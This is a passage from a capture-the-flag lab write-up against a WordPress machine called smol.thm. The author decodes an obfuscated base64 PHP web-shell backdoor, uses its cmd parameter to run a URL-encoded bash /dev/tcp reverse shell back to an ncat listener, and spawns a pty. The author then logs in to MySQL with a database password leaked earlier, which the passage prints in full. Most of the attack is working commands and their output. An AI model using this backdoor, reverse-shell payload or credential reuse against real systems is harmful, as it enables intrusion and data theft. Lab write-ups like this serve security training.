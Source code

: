 ```
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```
decoding the base64 reveals a strange code:
```
if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } 
```
We can decode it even more, this part:
```
\143\155\x64 -> cmd
\143\x6d\144 -> cmd
```
Putting it together we get:
```
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
```
This is an RCE vulnerability i can exploit like this:
```
http://www.smol.thm/wp-admin/index.php?cmd=<command>
```
Lets make a more stable shell using netcat:
```
ncat -nlvp 8081
```
And pasting this into the browser:
```
http://www.smol.thm/wp-admin/index.php?cmd=%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<IP>%2F8081%200%3E%261
```
Getting the shell:
```
Ncat: Connection from 10.10.60.118:52498.
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ip-10-10-60-118:/var/www/wordpress/wp-admin$ 
```
<br>
And now i have to get the first flag<br>
Checking the home directory, the target machine has 4 users<br><br>
After doing some basic PE methods, turns out mysql running on the server and I have the database login credentials from earlier:


```
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );
```
Lets try to login with them to the mysql databse:
```
www-data@ip-10-10-36-238:/home$ mysql -u wpuser -p
Enter password: kbLSF2Vop#lw3rjDZ629*Z%G

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 45
Server version: 8.0.42-0ubuntu0.20.04.1 (Ubuntu)
[...]
```
And it worked!<br>
Lets go Through the database!
```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
```